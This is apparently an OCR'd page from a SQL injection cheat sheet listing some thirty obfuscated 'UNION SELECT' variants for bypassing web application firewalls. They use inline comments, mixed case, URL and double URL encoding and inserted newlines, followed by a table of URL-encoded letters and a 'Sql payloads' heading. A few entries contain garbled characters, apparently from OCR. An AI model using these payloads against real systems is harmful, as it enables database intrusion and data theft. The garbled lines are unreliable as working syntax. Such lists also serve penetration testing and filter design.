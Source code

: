 ```
/*!blobblobblob%0d%0aunion*/+/*!blobblobblob%0d%0aSelEct*/
/union\sselect/g
/union\s+select/i
/*!UnIoN*/SeLeCT
+UnIoN/*&a=*/SeLeCT/*&a=*/
+uni>on+sel>ect+
+(UnIoN)+(SelECT)+
+(UnI)(oN)+(SeL)(EcT)
+’UnI”On’+'SeL”ECT’
+uni on+sel ect+
+/*!UnIoN*/+/*!SeLeCt*/+
/*!u%6eion*/ /*!se%6cect*/
uni%20union%20/*!select*/%20
union%23aa%0Aselect
/**/union/*!50000select*/
/^.*union.*$/ /^.*select.*$/
/*union*/union/*select*/select+
/*uni X on*/union/*sel X ect*/
+un/**/ion+sel/**/ect+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?<ion sel="">+un/**/ion+se/**/lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*!UnIoN*/SeLecT+

```
### HTML URL Encode (Codificación Url)

```
union select:

u	= %75
n	= %6e
i	= %69
o	= %6f
n	= %6e
space	= %20
s	= %73
e	= %65
l	= %6c
c	= %63
t	= %74

```
### Sql payloads 
